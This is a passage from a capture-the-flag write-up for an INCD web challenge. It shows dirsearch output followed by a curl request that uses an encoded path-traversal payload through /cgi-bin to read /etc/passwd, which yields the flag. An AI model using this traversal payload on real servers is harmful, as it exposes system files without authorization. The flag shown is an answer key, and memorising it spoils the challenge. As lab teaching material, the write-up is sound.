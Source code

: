 We run `dirsearch` on it:

```console
┌──(user@kali)-[/media/sf_CTFs/INCD/can_you_see]
└─$ dirsearch -u https://incd-challange-lets_go.chals.io/

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /media/sf_CTFs/INCD/can_you_see/reports/https_incd-challange-lets_go.chals.io/__23-04-17_20-04-55.txt

Target: https://incd-challange-lets_go.chals.io/

[20:04:55] Starting:
[20:05:30] 200 -    1KB - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[20:05:30] 200 -  820B  - /cgi-bin/printenv
[20:05:30] 200 -    1KB - /cgi-bin/test-cgi

Task Completed
```

Let's follow up on the first result:

```console
┌──(user@kali)-[/media/sf_CTFs/INCD/can_you_see]
└─$ curl --path-as-is https://incd-challange-lets_go.chals.io/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/sbin/nologin
utmp:x:100:406:utmp:/home/utmp:/bin/false
Flag{U_F1nd_/\/\!}
```

The flag is `Flag{U_F1nd_/\/\!}`.